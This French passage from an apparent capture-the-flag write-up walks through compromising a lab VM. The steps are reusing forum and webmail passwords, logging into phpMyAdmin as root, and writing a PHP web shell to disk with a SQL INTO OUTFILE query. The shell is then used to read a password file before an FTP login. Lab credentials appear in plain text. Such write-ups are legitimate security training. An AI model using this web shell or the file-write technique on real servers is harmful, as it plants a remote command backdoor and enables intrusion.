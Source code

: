 On tente alors de se connecter au forum avec l'utilisteur `lmezard` et le mot de passe `!q\]Ej?*5K5cy*AJ`. Ça fonctionne !

## Connexion au webmail
Le mail de `lmezard` sur le forum est `laurie@borntosec.net`. On tente alors de se connecter sur le webmail avec cette adresse mail et le même mot de passe. Là aussi, ça fonctionne ! On remercie `lmezard` qui a eu la bonne idée de n'avoir qu'un seul mot de passe.

On voit que `lmezard` a reçu un mail avec les identifiants et mot de passe pour la base de données.
```
root
Fg-'kKXBj87E:aJ$
```
Ces identifiants nous permettent de nous connecter à `phpmyadmin` depuis l'`url` `https://192.168.56.101/phpmyadmin`.

## phpmyadmin, injection de code et FTP
Le forum a été créé via `MyLittleForum`. En cherchant sur internet, on comprend vite qu'il existe de nombreuses failles. Sur la page Github d'installation de `MyLittleForum`, on remarque que nous avons les droits d'écriture dans le dossier `/var/www/forum/templates_c`. L'objectif ici est de créer via `phpmyadmin` une page php dans ce dossier, et d'y éxecuter du code nous permettant de naviguer sur le serveur.

On éxecute la commande SQL suivante pour y injecter notre page :
```sql
SELECT "<HTML><BODY><FORM METHOD=\"GET\" NAME=\"myform\" ACTION=\"\"><INPUT TYPE=\"text\" NAME=\"cmd\"><INPUT TYPE=\"submit\" VALUE=\"Send\"></FORM><pre><?php if($_GET['cmd']) {system($_GET[\'cmd\']);} ?> </pre></BODY></HTML>"
INTO OUTFILE '/var/www/forum/templates_c/shell.php'
```
La page contient donc maintenant un input faisant appel à la fonction `system` de php, nous permettant par exemple d'éxcuter un `ls`. On peut se rendre sur cette page via l'`url` `https://192.168.56.101/var/www/forum/templates_c/shell.php`. En naviguant dans le serveur, on y remarque un dossier `LOOKATME` contenant un fichier `password`. La commande suivante nous permet d'avoir un nom d'utilisateur et un mot de passe pour nous connecter à la VM.
```
cd /home/LOOKATME ; cat password
```
```
lmezard:G!@M6f4Eatau{sF"
```
Ces identifiants nous permettent de nous connecter en `FTP` avec le port `21`.

Pour se connecter en `FTP`, on utilise `filezilla`. On a besoin de l'hote, d'un identifiant, d'un mot de passe et d'un port. Nous utiliserons :

```
    host:   192.168.56.101
    user:   lmezard 
password:   G!@M6f4Eatau{sF"
    port:   21
```

## Connexion ssh
Grâce à notre connexion `FTP`, on remarque qu’on a accès à 2 fichiers :
- Un `README` contenant `Complete this little challenge and use the result as password for user 'laurie' to login in ssh`.
- `fun`, qui est une `tarball`.
